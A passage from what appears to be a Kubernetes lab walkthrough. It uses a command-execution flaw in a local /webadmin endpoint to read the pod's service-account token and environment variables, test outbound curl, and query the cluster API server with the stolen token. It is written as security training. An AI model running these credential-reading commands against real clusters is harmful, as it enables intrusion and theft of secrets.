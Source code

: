 ### Timeline of Doom

![[KS-2-24-10.png]]

---

### Part 2: Accessing the api-server inside the cluster 

1. Every Kubernetes Pod has a service token by default which is associated with its ServiceAccount. By default, this token is auto-mounted into every Pod at the path `var/run/secrets/kubernetes.io/serviceaccount/token`. Let's use the RCE to try to print out that token using the `cat` command:

[http://localhost/webadmin?cmd=cat%20/var/run/secrets/kubernetes.io/serviceaccount/token](http://localhost/webadmin?cmd=cat%20/var/run/secrets/kubernetes.io/serviceaccount/token)

![[KS-2-24-6.png]]


We now have the Pod token, so we have some credentials to play with. This can be used to help us explore other places in the cluster. 

2. It's also worth noting that even if this was just a **directory traversal exploit**, much of what we found—including this token—could also have been discovered. Even the environment variables are visible via the `/proc` file system. For example, printing out the contents of `/proc/self/environ` would give us the equivilent of running `env`: [http://localhost/webadmin?cmd=cat%20/proc/self/environ](http://localhost/webadmin?cmd=cat%20/proc/self/environ)

![[KS-2-24-7.png]]

Now we got into the `.env` or `envorinmental variables`  of the code and other sensitive creds such as endpoint of cluster 

2. Lets see if we can have internet access via this RCE , Let's see if we have `curl` available: [http://localhost/webadmin?cmd=curl%20https://google.com](http://localhost/webadmin?cmd=curl%20https://google.com)

![[KS-2-24-8.png]]


Volia ! Successfully !! 

3. Now we will take all the sensitive information from the container , We will use curl and the token credential to try to connect to the Kubernetes api-server and ask it for the cluster endpoints. The connection details are as follows:
- **Host:** the `KUBERNETES_PORT` variable value
- **URI:** the default namespace "endpoints" API `/api/v1/namespaces/default/endpoints` (it is often open to queries by any client)
- **Header:** An `Authorization: Bearer` containing contents of the token file from above\
- **CA Cert:** The CA certificate which we can assume will be in the default location at the same path as our token file and named `ca.crt`

The URL to open (replace `10.96.0.1` with your `KUBERNETES_PORT`): [http://localhost/webadmin?cmd=curl%20--cacert%20/var/run/secrets/kubernetes.io/serviceaccount/ca.crt%20-H%20%22Authorization:%20Bearer%20$(cat%20/var/run/secrets/kubernetes.io/serviceaccount/token)%22%20https://10.96.0.1/api/v1/namespaces/default/endpoints](http://localhost/webadmin?cmd=curl%20--cacert%20/var/run/secrets/kubernetes.io/serviceaccount/ca.crt%20-H%20%22Authorization:%20Bearer%20$(cat%20/var/run/secrets/kubernetes.io/serviceaccount/token)%22%20https://10.96.0.1/api/v1/namespaces/default/endpoints)
